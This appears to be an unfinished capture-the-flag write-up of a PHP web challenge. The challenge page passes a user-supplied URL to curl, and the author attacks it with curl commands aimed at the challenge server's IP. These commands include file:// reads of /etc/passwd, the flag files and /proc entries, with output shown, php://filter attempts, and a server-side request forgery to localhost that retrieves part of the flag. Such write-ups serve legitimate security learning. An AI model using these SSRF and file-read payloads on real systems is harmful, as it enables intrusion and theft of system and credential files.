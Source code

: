 #dHd
web chall

we are given this php source code, its a three part flag, and I only found the first two:

```php
<?php

/*
The fist part of the flag is at /flag.txt
The second part of the flag is in database, check /var/www/html/flag.php
The last part of the flag is in database
*/

if (!isset($_GET['url'])) {
    die(highlight_file(__FILE__));
}

$url = $_GET['url'];

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_CONNECTTIMEOUT, 10);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);

$response = curl_exec($ch);
curl_close($ch);

echo $response;
1
```

so I went to  try to get `/flag.txt` for the first part of the flag

```shell
curl http://52.78.16.36:8913/flag.txt
curl http://52.78.16.36:8913/index.php?url=flag.txt
curl http://52.78.16.36:8913/index.php?url=/flag.txt
curl http://52.78.16.36:8913/index.php?url=./flag.txt
curl http://52.78.16.36:8913/index.php?url=../flag.txt
```
and... all nothing - we can't even find the first part of the flag

I then tried this:

```shell
curl http://52.78.16.36:8913/index.php?url=https://google.com
```

and it gave me a `301` document moved, with a hyperlink to https://google.com


Also apparently we can also do stuff like this???:
```shell
curl http://52.78.16.36:8913/index.php?url=file:///etc/passwd
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

oh wait its at the **root?**
```shell
curl http://52.78.16.36:8913/index.php?url=file:///flag.txt
The first part: 8f6d5b31
```
Alright at least we got the first part.
So I tried:
```bash
curl http://52.78.16.36:8913/index.php?url=file:///var/www/html/flag.php
```
and it gave me the result:

```php
<?php

if ($_SERVER['REMOTE_ADDR'] === "127.0.0.1") {
    if ($_SERVER['REQUEST_METHOD'] === "GET" && isset($_GET['role']) && $_GET['role'] === "admin") {
        $db = mysqli_connect('db', 'dhd', '');
        $result = mysqli_query($db, "SELECT flag FROM flag.flag WHERE id=2");
        $result = mysqli_fetch_array($result);
        echo $result[0];
    }
    else if ($_SERVER['REQUEST_METHOD'] === "POST" && isset($_POST['role']) && isset($_POST['sql']) && $_POST['role'] === "admin") {
        $db = mysqli_connect('db', 'dhd', '');
        $result = mysqli_query($db, $_POST['sql']);
        $result = mysqli_fetch_array($result);
        echo var_dump($result);
    }
}
```

from curling `index.php` instead we can see that `flag.php` and `index.php` are in the same dir

Ok anyways back to the flag.php, it seems we need to somehow fufill the `if ($_SERVER['REMOTE_ADDR'] === "127.0.0.1")` which idk how - I just naively tried:

```bash
curl http://52.78.16.36:8913/flag.php?role=admin
```
which gave me nothing. I then tried using `--interface` but I am honestly stumped:
```shell
curl --interface 52.78.16.36 http://52.78.16.36:8913/flag.php?role=admin
curl: (45) bind failed with errno 99: Cannot assign requested address
```

wait a sec are we supposed to call it using `index.php`??
```shell
curl http://52.78.16.36:8913/index.php?url=http://52.78.16.36:8913/flag.php?role=admin
curl http://52.78.16.36:8913/index.php?url=/flag.php?role=admin
```

Look at other interesting files:
```
/etc/issue
Debian GNU/Linux 11 \n \l

/etc/shadow
nothing

/etc/group
probably useless

/etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.25.0.3      e35d06f186aa

could that be a part of the flag? (it wasnt)

/etc/motd
probably useless

/etc/mysql/my.cnf
nothing

/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
nothing

/proc/version
Linux version 5.15.0-1031-aws (buildd@lcy02-amd64-016) (gcc (Ubuntu 11.3.0-1ubuntu1~22.04) 11.3.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #35-Ubuntu SMP Fri Feb 10 02:07:18 UTC 2023

/proc/cmdline
BOOT_IMAGE=/boot/vmlinuz-5.15.0-1031-aws root=PARTUUID=b2e4a171-bfec-43f0-928d-f8fe44362f17 ro console=tty1 console=ttyS0 nvme_core.io_timeout=4294967295 panic=-1
```


try php filter???
```shell
curl http://52.78.16.36:8913/index.php?url=php://filter/convert.base64-encode/resource=index.php
```
nothing

try putting in `localhost` and it doesnt 301 anymore (yay)

```shell
curl http://52.78.16.36:8913/index.php?url=http://localhost
```
hmm can we access `flag.php`?

```shell
curl http://52.78.16.36:8913/index.php?url=http://localhost/flag.php?role=admin

The second part: a62ccdbb4190b
```
Alright can we somehow send a `POST` request to get our custom SQL query? hmm let's try specifying `sql` param...
```shell
curl http://52.78.16.36:8913/index.php?url=http://localhost/flag.php?role=admin&sql=SELECT+*+FROM+flag.flag
```
nope

the challenge says "The last part of the flag is in database", which isn't very specific. Do we get the database file or do we somehow trick php into doing a post request
hmm trying `method=POST`?
```shell
curl http://52.78.16.36:8913/index.php?url=http://localhost/flag.php?role=admin%26method=POST
```
nope it still gives the second part - its still treated like a `GET` req. idk.